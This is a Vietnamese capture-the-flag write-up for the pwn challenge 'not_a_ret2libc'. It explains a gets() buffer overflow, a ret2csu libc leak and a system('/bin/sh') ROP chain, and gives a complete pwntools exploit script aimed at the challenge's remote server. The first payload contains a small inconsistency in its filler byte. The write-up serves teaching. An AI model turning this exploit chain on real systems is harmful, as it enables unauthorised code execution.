

### not_a_ret2libc

------
*Bên lề: Ở bài writeup này mình hướng đến các bạn đã hiểu về technique `buffer overflow` và `ret2libc` vậy nên nếu các bạn chưa hiểu về bug `buffer overflow` và `ret2libc` là gì thì có thể tham khảo ở đây:* 

buffer overflow: 

https://www.youtube.com/watch?v=1S0aBV-Waeo&ab_channel=Computerphile

https://www.youtube.com/watch?v=T03idxny9jE&ab_channel=LiveOverflow

ret2libc:   
            https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc  
            https://gist.github.com/selftaught/4ff7e46d0142e951f4b6008780ef0487 

#### Review 


Đây là một câu ROP cơ bản mình đánh giá nó sẽ hơi khó cho các bạn mới chơi tuy nhiên đối với các bạn đã hiểu cách hoạt động của các gadget rồi thì nó sẽ rất là dễ vậy nên mình đánh giá đây là một câu medium chứ không phải hard. 

Mục đích mình ra câu này chỉ để đánh giá xem khả năng đọc code asm của các bạn và hiểu cách hoạt động của nó vì thế nên mình cho sẵn luôn cả source code và libc để dễ exploit. 


Đây là một file ELF có cấu trúc 64-bits và không bị stripped, các mitigation khá giống với bài `what_is_your_dream`, mình đã phân tích ở bên đó các bạn có thể qua bài đó để tham khảo. Check các lỗi cơ bản thì có vẻ bài dính lỗi `buffer overflow`. 

```c
#include <stdio.h>

int main()
{
    char buf;
    write(1,"give me something please: ",0x1b);
    gets(&buf);
return 0;
}
```

#### Analyze and Find bug

Code khá là ngắn, rất phù hợp cho những bạn lười reverse như mình. Chỉ là khởi tạo biến buf mang kiểu char và chỉ có 1 byte, sau đó in ra chuỗi `"give me something please:"` thông qua hàm `write`. Tiếp theo đề bài cho chúng ta nhập input vào bằng hàm `gets` thông qua biến `buf`. Nếu các bạn chưa biết thì hàm `gets` rất là nguy hiểm, attacker sẽ lợi dụng việc hàm `gets` chỉ đọc đến khi xuống dòng, lợi dụng điều này ta có thể gây ra lỗi `buffer overflow`. 

Vì NX được bật và RELRO partial, ngoài ra bài này cho sẵn cả libc vậy nên hướng làm bài này đó là lợi dụng bug `buffer overflow` để có thể build ROP chain ghi đè `rsp` về hàm `write(1,địa chỉ của hàm write ở GOT,8)` mục đích ghi đè `rsp` để chúng ta có thể leak địa chỉ libc của hàm `write` rồi sau đó tính toán để có thể đạt được địa chỉ libc base, rồi từ đó áp dụng hướng exploit cũ, ghi đè `rsp` để có thể return về ROP chain của chúng ta: `system('/bin/sh')`


#### Exploit

Bài này xem qua thì ở GOT chỉ có mỗi hàm `write` là có thể leak được địa chỉ libc của chính nó. Tuy nhiên để control được hàm write thì cần đến 3 tham số đó là rdi(tham số thứ nhất), rsi(tham số thứ hai), rdx(tham số thứ ba), nếu mà tìm sơ sơ thì ta chỉ có được mỗi tham số rdi, thì chúng ta không thể control được. Chúng ta cần tìm sâu hơn nếu muốn control hàm `write`. 

Lướt xuống nhìn kỹ ở hàm `__libc_csu_init` trong ida thì nó pop ra một mớ địa chỉ 

```
.text:00000000004011FA                 pop     rbx
.text:00000000004011FB                 pop     rbp
.text:00000000004011FC                 pop     r12
.text:00000000004011FE                 pop     r13
.text:0000000000401200                 pop     r14
.text:0000000000401202                 pop     r15
.text:0000000000401204                 retn
```

Nhìn ở bên trên thì ta có thể thấy ta có thể control thanh ghi rsi và rdx thông qua r14 và r13 bằng instruction: `mov rdx, r14` và `mov rsi, r13` 

```
.text:00000000004011E0                 mov     rdx, r14
.text:00000000004011E3                 mov     rsi, r13
.text:00000000004011E6                 mov     edi, r12d
.text:00000000004011E9                 call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:00000000004011ED                 add     rbx, 1
.text:00000000004011F1                 cmp     rbp, rbx
.text:00000000004011F4                 jnz     short loc_4011E0
```

Vậy là chúng ta đã có thể control được thanh ghi rsi và rdx. Tuy nhiên chúng ta cần phải thỏa mãn điều kiện của instruction `cmp rbp, rbx`, điều này khá là dễ dàng khi ta đã có hết tất cả những gì chúng ta cần, vì lúc sau rbx được cộng lên 1, thì chúng ta chỉ cần cho `rbx = 0` còn `rbp = 1`. Sau đó chúng ta chèn 56 bytes rác để có thể ghi đè instruction từ `00000000004011FA` tới `0000000000401202` để có thể return về địa chỉ mà ta muốn. Sau khi đã có `libc` rồi thì mọi thứ còn lại khá là đơn giản. Mình sẽ nói rõ hơn ở bên dưới exploit

#### Exploit 


```py 

from pwn import * 

r = remote("45.122.249.68", 10022)
# r = process('./not_a_ret2libc')
elf = context.binary = ELF('./not_a_ret2libc')
# libc = ELF("/usr/lib/x86_64-linux-gnu/libc-2.31.so")
libc = ELF('./libc-2.31.so')
csu1 = 0x4011fa 
# .text:00000000004011FA                 pop     rbx
# .text:00000000004011FB                 pop     rbp
# .text:00000000004011FC                 pop     r12
# .text:00000000004011FE                 pop     r13
# .text:0000000000401200                 pop     r14
# .text:0000000000401202                 pop     r15
# .text:0000000000401204                 retn

csu2 = 0x4011e0
# .text:00000000004011E0                 mov     rdx, r14
# .text:00000000004011E3                 mov     rsi, r13
# .text:00000000004011E6                 mov     edi, r12d
# .text:00000000004011E9                 call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
# .text:00000000004011ED                 add     rbx, 1
# .text:00000000004011F1                 cmp     rbp, rbx
# .text:00000000004011F4                 jnz     short loc_4011E0
# rbx =0; rbp =1; r12 = rdi; r13 = rsi; r14 = rdx
pop_rdi = 0x401203
ret = 0x40101a
payload = b'a' # nhập 1 byte cho biến buf
payload = p64(0) # ghi đè 8 bytes của thanh ghi rbp
payload += p64(csu1) #ghi đè rsp về địa chỉ của csu1 là instruction pop các thanh ghi mà ta cần
payload += p64(0) #rbx = 0
payload += p64(1) # rbp = 1
# write(1,elf.got['write'],6) => rdi =1, rsi = elf.got['write'], rdx = 6
payload += p64(1) #r12 = rdi = 1 
payload += p64(elf.got['write']) # r13 = rsi = elf.got['write']
payload += p64(6) #r14 = rdx = 6
payload += p64(elf.got['write']) # r15 = elf.got['write'] để gọi hàm write
payload += p64(csu2) # gọi csu2 để cho nó truyền các thanh ghi mà mình cần
payload += p64(0)*7 #ghi đè các bytes rác để có thể reach tới ret
payload += p64(elf.sym['main']) #return về hàm main để có thể in ra địa chỉ của libc cũng như hoàn thành nốt exploit
r.sendline(payload)
r.recvuntil(b"give me something please: \x00")
leak = r.recvuntil(b"give me",drop = True)
leak = u64(leak.ljust(8,b'\x00'))
print("write leak: "+hex(leak))
libc.address = leak - libc.sym['write']
print("libc base: " +hex(libc.address))
payload_1  = b'a' # nhập 1 byte cho biến buf
payload_1 += p64(0) #ghi đè 8 bytes của thanh ghi rbp
payload_1 += p64(ret) # ở một số phiên bản của glibc cần phải chèn ret để cho nó align payload với stack, việc này tùy các phiên bản
payload_1 += p64(pop_rdi) # gọi rdi
payload_1 += p64(next(libc.search(b'/bin/sh'))) #truyền '/bin/sh' vào tham số thứ nhất
payload_1 += p64(libc.sym['system']) #ghi đè rsp bằng việc gọi hàm system
r.sendline(payload_1)
r.interactive()
```

Mình khuyến khích các bạn build ROP chain chứ có địa chỉ gốc của libc rồi gọi one_gadget, việc lạm dụng one_gadget quá nhiều sẽ khiến sau này ở một số bài các bạn sẽ không hiểu rõ bản chất của nó. 
